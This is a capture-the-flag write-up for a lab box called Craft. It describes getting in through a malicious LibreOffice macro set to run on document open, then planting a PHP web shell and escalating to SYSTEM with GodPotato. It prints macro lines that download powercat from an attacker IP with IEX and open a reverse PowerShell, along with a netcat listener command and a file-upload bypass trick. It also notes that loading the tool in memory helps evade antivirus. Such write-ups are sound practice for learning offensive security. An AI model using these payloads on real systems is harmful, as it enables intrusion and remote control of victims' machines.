# Craft -- PG Play (write-up)

**Difficulty:** Medium
**Box:** Craft (PG Play)
**Author:** dkrxhn
**Date:** 2024-12-28

---

## TL;DR

### Upload function on a web app accepted ODT files. Embedded a malicious LibreOffice macro to get a reverse shell as apache. Uploaded a PHP shell to the webroot, then used GodPotato for SYSTEM.
---
## Target info

- Host: `192.168.198.169`
- Services discovered via nmap
---
## Enumeration










---
## Initial access -- ODT macro

The upload function allows a null byte trick on `shell.php.odt` -- intercept in Burp, change name to `shell.php:.odt`. The shell shows up in `/uploads`. Tried every PHP revshell from revshells.com but **none worked**.

Wappalyzer identified Umbraco. PHP 8.0.7 should be vulnerable but **not working**.

Pivoted to malicious LibreOffice macro instead.

In LibreOffice: Tools > Macros > Organize Macros > Basic, select document > New > name module:



Test macro to confirm execution:

```vb
Shell("cmd /c powershell iwr http://192.168.45.160/")
```



Save, close macro window. Then Tools > Customize:



Events tab > Open Document > Assign: Macro:



Select the nested folder within the document, hit OK:



Uploaded the ODT and got a callback on the listener:



Updated the macro with a full reverse shell using powercat:



```vb
Shell("cmd /c powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.160/powercat.ps1');powercat -c 192.168.45.160 -p 135 -e powershell")
```

Reassigned the macro in Tools > Customize and uploaded again:





---
## Pivoting to PHP shell









Uploaded a PHP reverse shell to the webroot at `C:\xampp\htdocs`:



Set up listener and navigated to `192.168.198.169/new-shell.php` to trigger:



---
## Privilege escalation -- GodPotato

JuicyPotatoNG **did not** work. Ran GodPotato-NET4.exe instead:



```bash
rlwrap nc -lvnp 8082
```



Weird output from `whoami` but still able to get the flag:



---
## Lessons & takeaways

- When direct PHP upload fails, pivot to macro-based document attacks
- LibreOffice macros with Open Document event triggers can execute on file open
- Powercat loaded via IEX never touches disk -- good for AV evasion
- When JuicyPotato fails, try GodPotato as an alternative
